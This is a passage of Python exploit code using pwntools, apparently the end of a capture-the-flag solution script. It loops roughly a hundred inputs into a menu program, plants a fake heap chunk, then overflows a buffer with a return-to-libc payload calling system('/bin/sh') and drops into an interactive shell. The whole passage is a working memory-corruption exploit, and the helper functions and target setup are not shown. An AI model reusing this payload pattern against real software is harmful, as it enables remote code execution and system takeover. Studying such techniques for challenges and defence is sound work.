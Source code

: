 ```py
    cnt = 3
    for i in range (98):
        p.sendlineafter (b'<y/n>: ', b'y')
        if cnt < 11:
            Input (p, b'ndd', b'12', b'onepieceisreal', b'bullshit')
        else:
            Input_after_10 (p, b'12', b'abcd')
        p.recvuntil (b'We will review them as soon as we can\n')
        print ("-----------------------------------------", cnt, "times -------------------------------------------------------------------------------")
        cnt += 1

    p.sendlineafter (b'<y/n>: ', b'y')
    Input (p, b'ndd', b'12', p32 (0) + p32 (0x41) + b'\x00' * 56 + p32 (0) + p32 (0x21), b'A' * 0x50 + p32 (12) + p32 (ebp - 0x50 + 0x8))

    p.sendlineafter (b'<y/n>: ', b'y')
    payload = b'A' * (0x50 - 0x8 + 0x4) + p32 (libc.symbols['system']) + p32(0) + p32 (next (libc.search (b'/bin/sh')))
    Input (p, payload, b'12', b'A', b'A')    

    p.sendlineafter (b'<y/n>: ', b'n')
    p.interactive()


if __name__ == "__main__":
    main()
```
